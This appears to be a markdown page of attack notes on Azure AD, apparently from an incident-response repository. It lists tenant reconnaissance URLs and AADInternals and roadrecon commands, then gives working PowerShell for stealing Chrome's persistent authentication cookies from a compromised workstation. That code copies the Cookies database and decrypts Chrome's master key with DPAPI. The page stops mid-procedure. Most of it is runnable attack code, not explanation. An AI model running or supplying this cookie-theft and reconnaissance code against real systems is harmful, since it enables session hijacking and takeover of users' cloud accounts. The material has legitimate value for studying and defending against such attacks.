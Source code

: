 ## Reconnaissance against Azure AD tenants

```
https://login.microsoftonline.com/<DOMAIN>/.well-known/openid-configuration
https://login.microsoftonline.com/getuserrealm.srf?login=<USER>@<DOMAIN>&xml=1
https://login.microsoftonline.com/getuserrealm.srf?login=<USER>@<DOMAIN>&xml=1
```

```
PS> Get-AADIntLoginInformation -Domain <DOMAIN> 
PS> Invoke-AADIntReconAsOutsider -DomainName <DOMAIN> | Format-Table
```

A python tool to look at [detailed federation information](https://github.com/WillOram/AzureAD-incident-response/blob/main/azureadrecon.py). 

## Authenticated reconnaissance against Azure AD 

```
roadrecon auth [-h] [-u USERNAME] [-p PASSWORD] [-t TENANT] [-c CLIENT] [--as-app] [--device-code] [--access-token ACCESS_TOKEN] [--refresh-token REFRESH_TOKEN] [-f TOKENFILE] [--tokens-stdout]
roadrecon gather
roadrecon gui
```

## Using a compromised workstation to gain access to cloud identities and data 

### Stealing the persistent authentication cookie from a compromised workstation

Remote environment 

```
Copy-Item "$Env:localappdata\Google\Chrome\User Data\Default\Cookies" .\tmp\

Add-Type -AssemblyName System.Security
$localState = Get-Content "$Env:localappdata\Google\Chrome\User Data\Local State" | ConvertFrom-Json
$encryptedKey = [convert]::FromBase64String($localState.os_crypt.encrypted_key)
$chromeMasterKey = [System.Security.Cryptography.ProtectedData]::Unprotect(($encryptedKey | Select-Object -Skip 5), $null, 'CurrentUser')
[convert]::ToBase64String($chromeMasterKey) > .\tmp\chromeMasterKey
```

Local env

```
Function Convert-ByteArrayToHex {
    [cmdletbinding()]
    param(
        [parameter(Mandatory=$true)]
        [Byte[]]
        $Bytes
    )
    $HexString = [System.Text.StringBuilder]::new($Bytes.Length * 2)
    ForEach($byte in $Bytes){
        $HexString.AppendFormat("{0:x2}", $byte) | Out-Null
    }
    $HexString.ToString()
}

$base64MasterKey = Get-Content .\chromeMasterKey
$encryptedKey = Convert-ByteArrayToHex ([convert]::FromBase64String($base64MasterKey))
$cookiePath = (Resolve-Path Cookies).Path 
```